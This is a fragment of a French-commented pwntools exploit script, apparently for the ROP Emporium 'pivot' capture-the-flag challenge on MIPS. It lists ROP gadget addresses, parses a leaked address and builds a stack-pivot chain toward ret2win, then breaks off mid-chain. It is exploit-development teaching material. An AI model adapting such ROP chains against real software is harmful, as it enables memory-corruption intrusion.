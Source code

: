 ```python

# References ELF de la librairie
libelf = ELF('libpivot_mipsel.so')

lib_foothold = libelf.symbols['foothold_function']
lib_ret2win = libelf.symbols['ret2win']
off_ret2win=lib_ret2win-lib_foothold


# Gadgets
# Read address to t1 and call
# 0x00400cb0 : lw $t9, 8($sp) ; lw $t2, 4($sp) ; lw $t1, ($t2) ; jalr $t9 ; addiu $sp, $sp, 0xc
g_read_addr_and_call = 0x00400cb0

# Load t0 and call t9
# 0x00400ca0 : lw $t9, 8($sp) ; lw $t0, 4($sp) ; jalr $t9 ; addiu $sp, $sp, 0xc
g_load_t0_and_call = 0x00400ca0

# Call t0+t1
# 0x00400cc4 : add $t9, $t0, $t1 ; jalr $t9 ; addiu $sp, $sp, 4
g_call_t0t1 = 0x00400cc4

# move sp, fp; lw ra, (sp+8); lw fp, (sp+4); jr ra; addiu sp, sp, 0xc
g_pivot = 0x00400cd0



if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


bssaddr = elf.get_section_by_name('.bss').header['sh_addr']

# Premier message
# ETAPE 0 : lecture de l'adresse leak
io.recvuntil(b"to pivot:")
leak = io.recvline().rstrip()
leak = int(leak,16)
log.info(f"got_foothold   = 0x{got_foothold:x}")
log.info(f"leak           = 0x{leak:x}")
log.info(f"adr ret2win    = 0x{lib_ret2win:x}")
log.info(f"adr foothold   = 0x{lib_foothold:x}")
log.info(f"offset ret2win = 0x{off_ret2win:x}")
log.info(f".bss address   = 0x{bssaddr=:x}")

log.info("Message 1")
# MESSAGE 1
# ROP chaine d'exploitation

# sp will be set to leak-4
PL=p32(0xbbbbbbbb)         # junk
PL+=p32(leak-0x200)          # pour fp
PL+=p32(g_load_t0_and_call) # pour ra du gadget pivot
# Call foothold
PL+=p32(0xdeadbeef)         # junk
PL+=p32(off_ret2win)        # t0 inutile ici
PL+=p32(plt_foothold)       # pour t9

# read got to t1
PL+=p32(g_read_addr_and_call) # pour ra
PL+=p32(got_foothold)       # 
```